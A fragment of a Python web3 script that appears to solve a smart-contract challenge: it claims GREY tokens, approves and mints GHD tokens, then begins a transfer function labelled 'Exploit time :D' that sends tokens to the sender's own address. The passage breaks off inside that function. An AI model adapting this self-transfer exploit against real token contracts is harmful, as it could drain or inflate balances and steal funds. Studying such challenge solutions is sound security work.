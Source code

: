 ```python

ghdTokenContract = web3.eth.contract(address=ghdTokenContractAddress, abi=ghdTokenABI)


###########################################################################################################

def signAndSendTx(txType, transactionData):
	signedTxn = web3.eth.account.sign_transaction(transactionData, private_key=privateKey)
	txnHash = web3.eth.send_raw_transaction(signedTxn.rawTransaction)
	txnReceipt = web3.eth.wait_for_transaction_receipt(txnHash)
	print(f'Transaction ({txType}) successful with hash: {txnReceipt.transactionHash.hex()}')

def claim():
	gasEstimate = setupContract.functions.claim().estimate_gas({'from': account.address})

	transaction = setupContract.functions.claim().build_transaction({
		'from': account.address,
		'nonce': web3.eth.get_transaction_count(account.address),
		'gas': gasEstimate,
		'gasPrice': web3.eth.gas_price
	})

	signAndSendTx('claim', transaction)

def approve():
	# Approve GHD to take GREY tokens from us to be able to mint GHD tokens later. 999999000000000000000000 (wei) to 999999 tokens
	gasEstimate = greyTokenContract.functions.approve(ghdTokenContractAddress, 999999000000000000000000).estimate_gas({'from': account.address})

	transaction = greyTokenContract.functions.approve(ghdTokenContractAddress, 999999000000000000000000).build_transaction({
		'from': account.address,
		'nonce': web3.eth.get_transaction_count(account.address),
		'gas': gasEstimate,
		'gasPrice': web3.eth.gas_price
	})

	signAndSendTx('approve', transaction)

def mint():
	# Grab GREY tokens balance first
	greyBalance = greyTokenContract.functions.balanceOf(account.address).call()

	# Mint GHD tokens using all of our GREY balance
	gasEstimate = ghdTokenContract.functions.mint(greyBalance).estimate_gas({'from': account.address})

	transaction = ghdTokenContract.functions.mint(greyBalance).build_transaction({
		'from': account.address,
		'nonce': web3.eth.get_transaction_count(account.address),
		'gas': gasEstimate,
		'gasPrice': web3.eth.gas_price
	})

	signAndSendTx('mint', transaction)


def transfer(amount):
	# Exploit time :D
	gasEstimate = ghdTokenContract.functions.transfer(account.address, amount).estimate_gas({'from': account.address})
```
